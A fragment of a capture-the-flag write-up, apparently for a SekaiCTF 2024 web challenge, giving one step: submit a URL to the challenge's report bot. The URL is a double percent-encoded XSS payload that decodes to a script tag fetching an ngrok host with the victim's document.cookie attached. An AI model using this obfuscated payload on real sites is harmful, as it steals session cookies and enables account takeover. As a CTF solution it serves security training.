 - Send the following payload to the bot via the POST route `/report`

```
http://127.0.0.1:5000/%25%33%63%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%30%25%37%33%25%37%32%25%36%33%25%33%64%25%32%32%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%31%25%32%35%25%33%32%25%36%31%25%32%35%25%33%32%25%36%36%25%32%35%25%33%36%25%33%36%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%33%34%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%33%38%25%32%35%25%33%32%25%33%38%25%32%35%25%33%36%25%33%30%25%32%35%25%33%36%25%33%38%25%32%35%25%33%37%25%33%34%25%32%35%25%33%37%25%33%34%25%32%35%25%33%37%25%33%30%25%32%35%25%33%37%25%33%33%25%32%35%25%33%33%25%36%31%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%36%25%32%35%25%33%33%25%33%35%25%32%35%25%33%33%25%33%30%25%32%35%25%33%36%25%33%35%25%32%35%25%33%33%25%33%36%25%32%35%25%33%32%25%36%34%25%32%35%25%33%37%25%36%32%25%32%35%25%33%35%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%34%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%34%25%32%35%25%33%37%25%36%34%25%32%35%25%33%32%25%36%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%37%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%32%25%32%35%25%33%32%25%36%34%25%32%35%25%33%36%25%33%36%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%36%25%33%31%25%32%35%25%33%37%25%33%30%25%32%35%25%33%37%25%33%30%25%32%35%25%33%32%25%36%36%25%32%35%25%33%33%25%36%36%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%32%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%33%35%25%32%35%25%33%33%25%36%34%25%32%35%25%33%32%25%33%34%25%32%35%25%33%37%25%36%32%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%34%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%36%35%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%32%25%32%35%25%33%36%25%33%39%25%32%35%25%33%36%25%33%35%25%32%35%25%33%37%25%36%34%25%32%35%25%33%36%25%33%30%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%36%25%32%32%25%33%65%25%33%63%25%32%66%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%33%65
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/SekaiCTF-2024/images/Pasted%20image%2020240826153530.png)
